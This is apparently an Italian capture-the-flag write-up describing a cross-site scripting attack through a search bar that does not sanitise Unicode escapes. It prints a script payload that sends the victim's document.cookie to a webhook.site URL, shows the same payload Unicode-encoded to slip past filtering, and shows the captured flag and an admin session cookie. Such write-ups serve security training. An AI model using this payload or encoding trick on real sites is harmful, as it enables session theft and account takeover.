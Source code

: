Dopo tanti tentativi ho scoperto che la barra di ricerca non sanitizza i caratteri UNICODE.

Quindi costruendo un payload di questo tipo

```jsx
<script>
fetch(https://webhook.site/e4d7925a-59d4-477a-9806-69bba38a288b?c=${document.cookie})
</script>
```

e traducendolo in caratteri UNICODE otteniamo

```jsx
\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u000a\u0066\u0065\u0074\u0063\u0068\u0028\u0060\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0077\u0065\u0062\u0068\u006f\u006f\u006b\u002e\u0073\u0069\u0074\u0065\u002f\u0065\u0034\u0064\u0037\u0039\u0032\u0035\u0061\u002d\u0035\u0039\u0064\u0034\u002d\u0034\u0037\u0037\u0061\u002d\u0039\u0038\u0030\u0036\u002d\u0036\u0039\u0062\u0062\u0061\u0033\u0038\u0061\u0032\u0038\u0038\u0062\u003f\u0063\u003d\u0024\u007b\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u0063\u006f\u006f\u006b\u0069\u0065\u007d\u0060\u0029\u000a\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e
```

Incolliamo questo code nella barra di ricerca.

Copiamo il link e reportiamolo all’admin. Su webhook troviamo la flag 

```jsx
flag=CCIT{f736c0e5df335092f93fe999377c766d?}; session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Z8dvmQ.4f6PP0tUpqTXKDv0YRRRmpLKsXI
```
